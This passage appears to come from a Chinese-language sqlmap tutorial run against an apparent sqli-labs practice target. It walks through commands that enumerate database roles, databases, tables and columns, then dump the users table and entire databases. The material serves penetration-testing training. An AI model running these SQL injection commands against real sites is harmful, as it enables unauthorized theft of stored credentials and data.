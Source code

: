 ```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles   #列出数据库所有管理员角色
```

## ![](https://p1.ssl.qhimg.com/t01a095aa631969a7fc.png)

## 查看所有的数据库 (—dbs)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dbs
```

## ![](https://p5.ssl.qhimg.com/t0189a6637411cb3482.png)

## 查看当前的数据库 (—current-db)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-db #查看当前的数据库
```

## 爆出指定数据库中的所有的表

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
```

![](https://p1.ssl.qhimg.com/t0154e7dcf64c049fce.png)

## 爆出指定数据库指定表中的所有的列

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns
```

![](https://p4.ssl.qhimg.com/t01557f4395d91accdc.png)

## 爆出指定数据库指定表指定列下的数据

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
```

![](https://p2.ssl.qhimg.com/t016b9a96c7c30a57d7.png)

## 爆出该网站数据库中的所有数据

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据
```
